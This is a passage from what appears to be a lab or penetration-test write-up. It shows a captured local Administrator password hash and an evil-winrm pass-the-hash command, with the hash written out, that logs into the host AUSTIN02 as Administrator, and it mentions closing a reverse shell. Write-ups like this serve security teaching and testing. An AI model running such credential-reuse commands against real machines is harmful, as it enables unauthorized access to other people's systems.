<figure><figcaption><p>Hash of local Administrator</p></figcaption></figure>

I can now use this with `evil-winrm` to access the machine as Administrator instantly:

```bash
evil-winrm -i austin02.skylark.com -u 'Administrator' -H 17add237f30abaecc9d884f72958b928
```

<figure><figcaption><p>Accessing AUSTIN02 as Administrator with hash</p></figcaption></figure>

With this in mind I can tear down my connection to port 40000 and my reverse shell spawned from it.

Unfortunately I do not find much more that is helpful for the domain on this machine.
